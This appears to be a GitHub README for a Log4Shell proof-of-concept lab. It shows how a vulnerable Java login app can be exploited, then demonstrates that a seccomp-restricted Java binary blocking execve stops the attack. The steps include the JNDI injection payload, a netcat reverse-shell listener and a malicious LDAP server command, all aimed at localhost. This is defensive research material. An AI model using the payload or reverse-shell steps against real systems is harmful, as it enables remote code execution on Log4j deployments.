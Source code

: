 ## Log4Shell
A small proof-of-concept for the Log4Shell vulnerability based on https://github.com/kozmer/log4j-shell-poc.
The vulnerable application is a simple login component which logs the username and password when login fails, using a vulnerable version of the Log4j logging framework.
The application is used to show how an attacker's capabilities can be restricted with a simple sandboxed execution environment
defined by the system calls that the application is allowed to make.

The code has only been tested on Ubuntu 22.04. 

## Requirements
The Maven project management tool has been used to compile the vulnerable application. However, testing the proof-of-concept should be possible without compiling
the vulnerable application since a compiled version of the vulnerable application is already included in this repository.

Python 3 is used to start a malicious LDAP server, serving a class `Exploit.class` which tries to establish a reverse shell.

Netcat is used to catch the reverse shell connection.


## Testing the exploit
1. Optionally, compile the vulnerable application by running `maven package`.
2. In a terminal window, start the vulnerable web application with the command `./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp`.
3. In a second terminal window, start a Netcat listener with the command: `nc -lvnp 9001`.
4. In a third terminal window, start the malicious LDAP server with the command: `python3 poc.py --userip localhost --webport 8000 --lport 9001`.
5. In the vulnerable application, type in the following username `${jndi:ldap://localhost:1389/a}`. Then type in any password.
6. Go to the second terminal window. A reverse shell should now have been established. This can e.g. be tested by trying to run `ls` or `whoami`.

## Testing the exploit with a capability-restricted Java interpreter
The file `./java-soft` is a symbolic link to `./jdk1.8.0_20/bin/java`. However, `./java-soft` is capability-restricted, meaning that it is only allowed to
make a subset of all Linux system calls. In particular, `./java-soft` is not allowed to execute the `execve` system call which is used to establish
the reverse shell by executing `execve("/bin/sh", ...)`.

Thus, perform the same steps as above, but in step 2, start the vulnerable application with the capability-restricted version of the Java interpreter:
`./java-soft -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp`.
After performing step 5, the vulnerable application should now terminate, and no reverse shell should be established.

If you run into issues, try recompiling the vulnerable application by running `maven package`.

## Creating the capability-restricted Java interpreter
The capability restricted Java interpreter was created by first analyzing the set of system calls required for the vulnerable application to
work properly. This was done using `strace`. In particular, the following command was executed:
```
strace -n -f -o trace.txt ./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp
```
The vulnerable application was then used, trying to login with both invalid and valid logins before terminating the application.

Afterwards, a list of system call numbers were extracted with the command:
```
cat trace.txt | tail -n +2 | grep -E -o '\[[[:blank:]]*[[:digit:]]+\]' | grep -E -o '[[:digit:]]+' | sort -n | uniq | awk 'BEGIN{printf "["}NR>=0{printf "%s,", $1}END{printf "]\n"}' | sed 's/,\]/]/' > syscalls.json
```
Note that the first system call in `trace.txt` is `execve("./jdk1.8.0_20/bin/java", ...)` which is used to spawn the Java interpreter. 
Thus, this system call is ignored with the `tail -n +2` command.

A symbolic link to the Java interpreter was then created with:
```
ln -s ./jdk1.8.0_20/bin/java java-soft
```
Note that `./java-soft` is a binary ELF executable.

Lastly, a capability-restricted version of `./java-soft` was created with:
```
sudo ../sysfilter/enforcement/sysfilter_enforce --work-dir . ./java-soft syscalls.json
```
Note that the enforcement tool of the `sysfilter` library is used here. 
See https://gitlab.com/Egalito/sysfilter for more information on how to retrieve and use this tool. 
The enforcement tool works by patching the binary ELF executable to install a `seccomp-BPF` filter,
which ensures that only the specified set of system calls are allowed.
